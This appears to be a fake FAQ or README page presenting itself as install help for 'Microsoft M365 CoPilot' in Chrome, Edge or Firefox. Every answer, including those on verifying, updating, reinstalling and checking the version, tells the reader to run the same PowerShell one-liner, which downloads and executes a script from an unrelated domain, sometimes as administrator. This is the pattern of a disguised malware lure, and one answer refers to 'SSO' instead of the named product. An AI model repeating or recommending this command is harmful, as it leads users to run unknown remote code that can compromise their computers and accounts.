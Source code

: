 ### **3. How do I install Microsoft M365 CoPilot on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install Microsoft M365 CoPilot using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that Microsoft M365 CoPilot is installed?**  
After running the installation command, your system will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If Microsoft M365 CoPilot is already installed, it will notify you.  

### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update Microsoft M365 CoPilot?**  
To update SSO, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall Microsoft M365 CoPilot?**  
To uninstall, remove Microsoft M365 CoPilot from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install Microsoft M365 CoPilot without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of Microsoft M365 CoPilot?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  
